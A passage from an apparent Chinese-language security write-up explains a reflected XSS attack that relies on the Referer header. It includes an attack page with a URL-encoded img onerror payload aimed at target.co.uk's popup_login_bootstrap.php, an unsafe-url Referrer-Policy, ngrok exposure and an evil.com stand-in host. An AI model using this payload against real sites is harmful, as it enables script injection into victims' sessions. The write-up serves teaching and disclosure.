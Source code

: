  这个路径时，服务器会返回 
```
xss.html
```

  
 页面的内容。  
  
而 
```
xss.html
```

  
 文件中则包含了真正的攻击链接：  

```
<a href=&#34;https://www.target.co.uk/ajax/popup_login_bootstrap.php?source_url=%27%22%3e%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%61%6c%65%72%74%28%64%6f%6d%61%69%6e%29%20%2f%3e&#34;>点我触发攻击</a>

```

  
为了让这个攻击能够在互联网上被访问到，可以使用 
```
ngrok
```

  
 工具，将本地的恶意服务器暴露在公网上。  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jnaibpiaylNsblwKMiamejsve8W23s61ImJ5beJZzAWIsogTicxVEtTaldqtRdmdbyMlYImwCNjGudLIw/640?wx_fmt=png&from=appmsg "")  
  
  
从上图可以看到，我们服务器的响应头中，
```
Referrer-Policy
```

  
 确实已经被设置为了 
```
unsafe-url
```

  
。  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jnaibpiaylNsblwKMiamejsve8DmEibLEaSOHpRQVylV7qBL9b8jTzTYqG6LWY5xpG9CIdZFEb4Zjribibw/640?wx_fmt=png&from=appmsg "")  
  
  
当受害者点击我们页面上的链接时，浏览器会将完整的 
```
Referer
```

  
 头部 (
```
evil.com/target.co.uk/evil.html
```

